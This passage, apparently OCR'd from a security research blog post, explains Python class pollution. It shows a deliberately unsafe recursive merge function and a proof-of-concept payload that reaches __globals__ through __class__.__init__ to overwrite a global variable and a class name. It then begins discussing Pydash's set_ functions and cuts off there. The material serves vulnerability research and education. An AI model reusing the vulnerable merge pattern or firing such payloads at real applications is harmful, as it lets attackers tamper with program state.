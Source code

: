 NotAccessibleClass

`NotAccessibleClass` and

not\_accessible\_variable

`not_accessible_variable`.

```
def merge(src, dst):
    # Recursive merge function
	for k, v in src.items():
		if hasattr(dst, '\_\_getitem\_\_'):
			if dst.get(k) and type(v) == dict:
				merge(v, dst.get(k))
			else:
				dst\[k\] = v
		elif hasattr(dst, k) and type(v) == dict:
			merge(v, getattr(dst, k))
		else:
			setattr(dst, k, v)

class User:
	def \_\_init\_\_(self):
		pass

class NotAccessibleClass: pass
not\_accessible\_variable = 'Hello'

merge({'\_\_class\_\_':{'\_\_init\_\_':{'\_\_globals\_\_':{'not\_accessible\_variable':'Polluted variable','NotAccessibleClass':{'\_\_qualname\_\_':'PollutedClass'}}}}}, User())

print(not\_accessible\_variable)
print(NotAccessibleClass)

#\> Polluted variable
#\> <class '\_\_main\_\_.PollutedClass'>
```

> Real Examples of the Merge Function
-------------------------------------

Let’s look for actual examples of the merge function implementation.  
While I was working on this topic, I wanted to show real cases for libraries or applications that are vulnerable to Class Pollution to prove the concept. So, I started by doing some random searches about Python libraries providing functionality where recursive merge might be needed and used.  
Lodash is one of the JavaScript libraries where Prototype Pollution was previously discovered and reported more than once. Now allow me to introduce you to the Python implementation of Lodash which is Pydash. Pydash

set_

`set_` and

set_with
